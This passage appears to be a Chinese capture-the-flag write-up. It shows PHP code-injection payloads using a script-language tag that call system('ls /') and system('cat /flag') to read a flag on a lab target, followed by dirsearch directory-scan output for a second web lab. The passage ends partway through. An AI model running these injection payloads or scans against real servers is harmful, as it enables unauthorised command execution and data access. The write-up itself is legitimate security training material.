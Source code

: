 构造如下语句,查看文件目录

```php
<script language="php">system("ls /")</script>
```

![collector-nav](assets\collector-nav.png)

构造语句，取得flag

```php
<script language="php">system("cat /flag")</script>
```

![collector-flag](assets\collector-flag.png)

flag:

> flag{bb0a3025-5764-4b36-95de-b106d0df38c5}

### web综合渗透靶场flag1

开启靶机，使用**dirsearch**扫目录

> [20:07:10] 301 -  169B  - /.idea 
> 
> [20:07:10] 403 -  555B  - /.idea/
> 
> [20:07:10] 200 -  541B  - /.idea/dataSources.xml
> 
> [20:07:10] 200 - 1004B  - /.idea/dataSources.local.xml
> 
> [20:07:11] 200 -  273B  - /.idea/modules.xml
> 
> [20:07:11] 200 -    6KB - /.idea/workspace.xml
> 
> [20:07:58] 301 -  169B  - /admin 
> 
> [20:08:04] 200 -    2KB - /admin/login.php
> 
> [20:08:39] 301 -  169B  - /api 
> 
> [20:09:44] 200 -   25B  - /flag.php
> 
> [20:10:13] 301 -  169B  - /lib 
> 
> [20:10:17] 200 -    1KB - /login.php
> 
> [20:11:32] 301 -  169B  - /static 
> 
> [20:11:49] 301 -  169B  - /upload 
> 
> [20:11:49] 403 -  555B  - /upload/
> 
> [20:11:50] 302 -   52KB - /user.php  ->  login.php
